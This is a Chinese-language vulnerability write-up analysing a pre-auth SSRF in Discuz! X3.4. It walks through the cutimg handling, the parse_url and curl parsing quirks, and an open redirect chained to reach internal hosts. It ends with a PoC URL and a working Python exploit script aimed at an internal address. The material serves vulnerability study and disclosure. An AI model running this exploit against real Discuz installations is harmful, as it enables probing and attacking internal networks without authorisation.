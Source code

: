 ```yaml
---
title: "Discuz x3.4 前台ssrf"
id: zhfly2872
---
```


# Discuz! X3.4 前台ssrf

## 一、漏洞简介

DDiscuz! X3.4 source/module/misc/misc_imgcropper.php页面中的cutimg参数，因为应用程序的远程下载功能过滤不严，配合前台任意URL跳转漏洞，可以造成SSRF漏洞，可以对与外部隔离的内部环境进行探测和攻击

## 二、漏洞影响

*   <= x3.4

*   windows

*   php>5.3+php-curl<=7.54

*   DZ开放在80端口

## 三、复现过程

### 漏洞分析

**本地ssrf**

/source/module/misc/misc_imgcropper.php 55行

```
 require_once libfile('class/image');	$image = new image();	$prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl'];	if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {		showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true));	}
$prefix`可以通过GET传递`$_GET['picflag']`为2进行三元操作，变成了默认的`/`，然后和`$_GET['cutimg']`进行拼接作为第一个参数传进了`$image->Thumb 
```

source/class/class_image.php 51行

```
 function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {		$return = $this->init('thumb', $source, $target, $nosuffix);	} 
```

拼接后的参数作为`$source`又传进了init函数

source/class/class_image.php 118行

```
 function init($method, $source, $target, $nosuffix = 0) {		global $_G;		$this->errorcode = 0;		if(empty($source)) {			return -2;		}		$parse = parse_url($source);		if(isset($parse['host'])) {			if(empty($target)) {				return -2;			}			$data = dfsockopen($source);			$this->tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');			if(!$data || $source === FALSE) {				return -2;			}			file_put_contents($source, $data);		} 
```

可以发现如果`$source`经过`parse_url`的解析结果中如果包含host字段就不结束流程，然后将`$source`参数传入`dfsockopen`函数。Php中的`parse_url`函数是可以对`//`开头的域名进行解析的, `$source`本身就是`/`开头，因此只需要通过开始的`$_GET['cutimg']`注入`/www.0-sec.org，变成`//www.0-sec.org`即可继续执行。

![image](../img/5900b0139b39025222e4523ecfc7b008.png)

source/function/function_core.php 199行

```
function dfsockopen($url, $limit = 0, $post = '', $cookie = '', $bysocket = FALSE, $ip = '', $timeout = 15, $block = TRUE, $encodetype  = 'URLENCODE', $allowcurl = TRUE, $position = 0, $files = array()) {	require_once libfile('function/filesock');	return _dfsockopen($url, $limit, $post, $cookie, $bysocket, $ip, $timeout, $block, $encodetype, $allowcurl, $position, $files);} 
```

进入dfsockopen函数后，我们构造的字符串变为$url，然后传入了_dfsockopen函数。

dz/source/function/function_filesock.php 31行

![image](../img/45d719060b8794fdcdb3f6c84d497c5e.png)

发起了curl请求，就是这里触发了ssrf，这里的现有使用后parse_url解析了一次$url，和上面的解析是一样的，然后又进行了拼接成为了curl的地址。

![image](../img/ccc1c5c5114e38f6b7cba687bcdd64d2.png)

其$scheme为空，如果我们为cutimg传入/dz//member.php，那么到就会变成://dz//member.php

![image](../img/c1b3040fec0be94c6f648dba4ddfc52c.png)

在php的curl中我们尝试访问://dz/forum.php

![image](../img/ab8f93f1104928b0061ce63d349ec66f.png)

可以发现无指定协议的默认就是http协议，://是代表访问本地dz/forum.php表示路径和path，因此能够访问首页，到这里就有了一个可以对通网站下进行ssrf的漏洞点。

Curl的配置当中开启了跳转

![image](../img/302d6a1ee153bdb59b225f7a16aaaf5d.png)

再找到一个站内的url跳转，就能绕过站内curl的限制，实现真正的ssrf。

### 前台任意url跳转

/source/class/class_member.php 310行

![image](../img/8448323ba66aa6a598e8b9bf61484e97.png)

调用了dreferer()结果作为跳转地址，继续跟进该函数。

source/function/function_core.php 1498行

![image](../img/f158b3b4b79c540f0cf12877d27a5c24.png)

`$_G['referer']`这个参数我们可控，同样使用了`parse_url`进行了解析，首先对协议进行了判断，需要属于`http/https`。

然后又对host字段和`$_SERVER['HTTP_HOST']`进行了对比，判断是否在同一个域名下，因为攻击中是通过curl发起的请求，$_SERVER[‘HTTP_HOST’]此时为空，但是和www.进行了，因此这里域名为`www.`即可绕过判断成功注入location字段

此时处理跳转的是php的curl，curl这里会因为`#@`出现解析问题，会跳转到192.168.2.63:6666，也就是形成ssrf。

![image](../img/5b99face9120476041a84c6e06d09191.png)

站内ssrf->前台get型的任意url跳转->ssrf漏洞

**总结**：

因为应用程序的远程下载功能过滤不严，利用php中的parse_url还有curl解析特性，配合前台任意URL跳转漏洞，可以造成SSRF漏洞。

### poc

```
htp://www.0-sec.org/code-src/dz/Discuz_TC_BIG5/upload/member.php?mod=logging&action=logout&XDEBUG_SESSION_START=13904&referer=http://localhost%23%40www.baidu.com&quickforward=1 
```

### python 脚本

```
# coding=utf-8
import requests
import re
from urllib.parse import urlparse, quote
from urllib import parse
if __name__ == "__main__":
    url = "http://192.168.66.129/dz/"
    ssrf_target = "192.168.0.36:6666"
    path = urlparse(url).path
    payload = quote(
        "/member.php?mod=logging&action=logout&quickforward=1&referer=http://www.%23%40{ssrf_target}".format(
            ssrf_target=ssrf_target))
    s = requests.Session()
    html = s.get(url).text
    searchObj = re.search(r'name="formhash" value="(.*?)"', html, re.M | re.I)
    formhash = searchObj.group(1)
    rs = s.post(
        url + "misc.php?mod=imgcropper&imgcroppersubmit=1&formhash={formhash}&picflag=2&cutimg={path}{payload}".format(
            formhash=formhash, path=path, payload=payload))
    exit() 
```

![image](../img/b9edbfc7a606a3a41d2655d332b6d4ea.png)

## 参考链接

> [http://www.rai4over.cn/2018/12/07/Discuz-3-4%E5%89%8D%E5%8F%B0%E6%9C%89%E9%99%90%E5%88%B6SSRF%E6%BC%8F%E6%B4%9E/index.html](http://www.rai4over.cn/2018/12/07/Discuz-3-4%E5%89%8D%E5%8F%B0%E6%9C%89%E9%99%90%E5%88%B6SSRF%E6%BC%8F%E6%B4%9E/index.html)